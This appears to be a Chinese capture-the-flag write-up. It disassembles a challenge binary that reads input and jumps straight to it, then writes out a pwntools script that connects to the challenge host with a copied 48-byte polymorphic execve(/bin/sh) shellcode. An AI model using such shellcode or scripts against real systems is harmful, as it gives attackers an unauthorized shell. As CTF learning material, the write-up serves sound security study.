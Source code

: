 ```asm
.data:080490C1                 db  6Dh ; m
.data:080490C2                 db  65h ; e
.data:080490C3                 db  20h
.data:080490C4                 db  79h ; y
.data:080490C5                 db  6Fh ; o
.data:080490C6                 db  75h ; u
.data:080490C7                 db  72h ; r
.data:080490C8                 db  20h
.data:080490C9                 db  73h ; s
.data:080490CA                 db  68h ; h
.data:080490CB                 db  65h ; e
.data:080490CC                 db  6Ch ; l
.data:080490CD                 db  6Ch ; l
.data:080490CE                 db  63h ; c
.data:080490CF                 db  6Fh ; o
.data:080490D0                 db  64h ; d
.data:080490D1                 db  65h ; e
.data:080490D2                 db  3Ah ; :
.data:080490D3                 db  20h
.data:080490D4                 db  17h
.data:080490D4 _data           ends
```

试着反编译一下主程序：

```c
void start()
{
  int v0; // eax
  int v1; // eax
  int v2; // [esp-100h] [ebp-100h]

  v0 = sys_write(1, &msg, 0x18u);
  v1 = sys_read(0, &v2, 0x100u);
  JUMPOUT(__CS__, &v2);
}
```

:thinking:没有发现什么名堂，可能真的是给它什么`shellcode`就行了叭

遂百度`shellcode`：

> shellcode 是一段用于利用软件漏洞而执行的代码，shellcode 为 16 进制的机器码，因为经常让攻击者获得 shell 而得名。shellcode 常常使用机器语言编写。可在暂存器 eip 溢出后，塞入一段可让 CPU 执行的 shellcode 机器码，让电脑可以执行攻击者的任意指令。
>
> ——百度百科

即`shellcode`就是一串可以返回 shell 的机器指令码，使得在没有写后门来 getshell 的程序中也能 getshell，在 linux 上典型的有：
[Linux/x86 - execve(/bin/sh) + Polymorphic Shellcode (48 bytes)](https://www.exploit-db.com/exploits/13312)

直接抄答案就行：

```shell
# nc sec.eqqie.cn 10000
from pwn import *

p = remote('sec.eqqie.cn',10000)
payload = b''

# shellcode
payload += b"\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload += b"\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload += b"\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload += b"\x32\xc1\x51\x69\x30\x30\x74\x69"
payload += b"\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload += b"\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
```